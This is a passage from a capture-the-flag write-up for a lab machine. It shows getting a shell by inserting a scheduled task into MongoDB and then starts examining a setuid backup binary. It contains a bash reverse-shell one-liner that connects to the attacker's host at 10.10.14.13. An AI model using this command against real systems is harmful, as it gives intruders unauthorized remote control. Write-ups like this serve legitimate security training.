 Then, we just need to insert a new task in JSON format.&#x20;

```
> db.tasks.insert({"cmd": "bash -c 'bash -i >& /dev/tcp/10.10.14.13/4444 0>&1'"})
WriteResult({ "nInserted" : 1 })
```

After a little bit, we should get a reverse shell on our machine as `tom`.&#x20;

<figure><img src="../../../.gitbook/assets/image (38) (6).png" alt=""><figcaption></figcaption></figure>

Then we can grab the user flag.

### Backup Binary

Earlier, we saw that `tom` was part of the `sudo` group. We just have to find his credentials for an easy root. First, I ran LinPEAS to enumerate the file system for me. Within the Backup Files portion, I found this:

```
-rwsr-xr-- 1 root   admin       17K Sep  3  2017 /usr/local/bin/backup
```

When examined, it appears this is an ELF file:

{% code overflow="wrap" %}
```
tom@node:/tmp$ file /usr/local/bin/backup
/usr/local/bin/backup: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=343cf2d93fb2905848a42007439494a2b4984369, not stripped
```
{% endcode %}

This thing also takes in user input, and doesn't function without it:

```
tom@node:~$ backup 1 2 3



             ____________________________________________________
            /                                                    \
           |    _____________________________________________     |
           |   |                                             |    |
           |   |                                             |    |
           |   |                                             |    |
           |   |                                             |    |
           |   |                                             |    |
           |   |                                             |    |
           |   |             Secure Backup v1.0              |    |
           |   |                                             |    |
           |   |                                             |    |
           |   |                                             |    |
           |   |                                             |    |
           |   |                                             |    |
```